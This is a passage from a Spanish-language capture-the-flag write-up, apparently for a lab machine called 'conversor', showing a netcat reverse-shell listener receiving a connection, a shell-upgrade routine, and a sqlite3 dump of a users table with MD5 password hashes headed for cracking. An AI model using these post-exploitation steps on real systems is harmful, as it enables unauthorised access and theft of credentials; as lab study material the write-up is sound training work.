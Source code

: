 ```shell
rlwrap nc -lvnp 9001                                                                                   
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.92] 37318
bash: cannot set terminal process group (20149): Inappropriate ioctl for device
bash: no job control in this shell
www-data@conversor:~$ whoami
whoami
www-data
www-data@conversor:~$ 
```
## Tratamiento de la TTY

Hacemos el prodecimiento de siempre para que la terminal sea más cómoda agregando las siguientes lineas de comandos para resetear la terminal.

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo; fg
```

## Extraer datos de la base de datos

Nos dirigimos al directorio donde estaba el `users.db` y vemos los ususarios existentes.

```shell
sqlite3 users.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .table.tables
.tables
files  users
sqlite> .schem.schema users
.schema users
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
sqlite> selectselect * from users;
select * from users;
```

```shell 
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|dummy|275876e34cf609db118f3d84b799a790
6|pepe|926e27eecdbc7a18858b3798ba99bddd
7|test|098f6bcd4621d373cade4e832627b4f6
```

Utilizando crackSTation comprobamos si encontramos la contraseña en texto claro de este cifrado de contrasñas en MD5
